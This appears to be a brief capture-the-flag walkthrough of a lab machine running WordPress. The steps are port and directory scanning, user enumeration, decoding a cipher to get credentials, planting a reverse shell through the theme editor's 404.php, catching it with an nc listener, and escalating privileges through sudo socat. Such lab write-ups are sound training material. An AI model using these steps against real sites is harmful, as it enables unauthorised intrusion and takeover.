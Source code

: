 ### NMAP  
nmap -sV 10.10.197.5 -o nmap.txt  
port -> 21,22,80  
ffuf -u http://10.10.197.5/FUZZ -w /usr/share/wordlists/dirb/common.txt  
http://10.10.197.5/wordpress/   
http://10.10.197.5/hackathon/  
sudo docker run -it --rm wpscanteam/wpscan --url http://10.10.197.5/wordpress/wp-login.php --enumerate u  
/hackathon-> view source  
http://10.10.55.80/wordpress/  
we find a cipher and key  
https://cryptii.com/pipes/vigenere-cipher   
we can see a blog by user elyana  
Login to http://10.10.55.80/wordpress/wp-login/  with user elyana  
http://10.10.55.80/wordpress/wp-admin/media-new.php  -> unable to upload any php file with modifications in extension  
http://10.10.55.80/wordpress/wp-content/themes/twentytwenty/style.css?ver=1.5  we found this link in source code  
http://10.10.55.80/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty  -> paste reverse shell here and then  
http://10.10.55.80/wordpress/wp-content/themes/twentytwenty/404.php  
start nc -lnvp port  
we get shell as www-data  
user.txt  permission denied  
find / -user elyana 2>/dev/null  
we get the path and save password  
ssh as user  
flag is base64 encoded  
sudo -l  
https://gtfobins.github.io/gtfobins/socat/   


 









